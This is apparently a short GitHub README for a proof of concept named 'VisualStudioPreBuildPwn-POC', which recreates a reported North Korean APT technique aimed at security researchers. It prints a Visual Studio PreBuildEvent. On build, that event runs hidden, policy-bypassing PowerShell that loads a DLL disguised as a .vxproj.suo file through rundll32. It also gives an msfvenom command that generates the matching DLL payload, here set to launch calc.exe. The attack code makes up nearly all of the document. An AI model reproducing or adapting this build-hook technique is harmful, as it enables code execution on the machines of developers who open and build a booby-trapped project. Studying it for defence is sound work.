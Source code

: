 # VisualStudioPreBuildPwn-POC
Recent APT exploitation method POC 


https://www.bleepingcomputer.com/news/security/north-korean-hackers-are-targeting-security-researchers-with-malware-0-days/


```
<PreBuildEvent>
powershell -ep b -win h if(([system.environment]::osversion.version.major -eq 10) -and [system.environment]::is64bitoperatingsystem -and (Test-Path $(TargetName).vxproj.suo)){rundll32 $(TargetName).vxproj.suo,CMS_dataFinal Bx9yb37GEcJNK6bt 4901}
</PreBuildEvent>
```



msfvenom -p windows/exec CMD='calc.exe' -f dll > targetname.vxproj.suo
